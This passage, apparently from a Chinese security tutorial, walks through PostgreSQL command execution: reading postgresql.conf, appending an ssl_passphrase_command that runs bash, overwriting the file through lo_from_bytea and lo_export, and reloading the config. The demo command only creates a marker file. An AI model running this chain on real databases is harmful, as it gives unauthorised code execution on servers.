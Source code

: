 [![49.png](assets/1710208076-aedf6fc1615ecdfc746d4e5ad8f6731e.png)](https://storage.tttang.com/media/attachment/2022/04/13/a604d4f8-d1d5-470d-8ee2-b663c09a36b1.png)

读取配置文件内容

```bash
select setting from pg_settings where name='config_file'
select pg_read_file('/var/lib/postgresql/data/postgresql.conf');
```

在原始配置文件内容末尾追加上 ssl 配置

```bash
ssl = on
ssl_cert_file = '/etc/ssl/certs/ssl-cert-snakeoil.pem'
ssl_key_file = '/var/lib/postgresql/data/PG_VERSION'
ssl_passphrase_command_supports_reload = on
ssl_passphrase_command = 'bash -c "touch /tmp/success & echo 12345678; exit 0"'
```

转为 base64 格式

```bash
# 这里我将配置文件的内容存到了 out.txt 中
cat out.txt | base64 -w 0 > base3.txt
```

```bash
-- 将修改后的配置文件加载到 largeobject 中
select lo_from_bytea(10001,decode('base64 的内容，这里略','base64'));

-- 通过 lo_export 覆盖配置文件
select lo_export(10001,'/var/lib/postgresql/data/postgresql.conf');
SELECT lo_unlink(10001);

-- 重新加载配置文件
select pg_reload_conf();
```

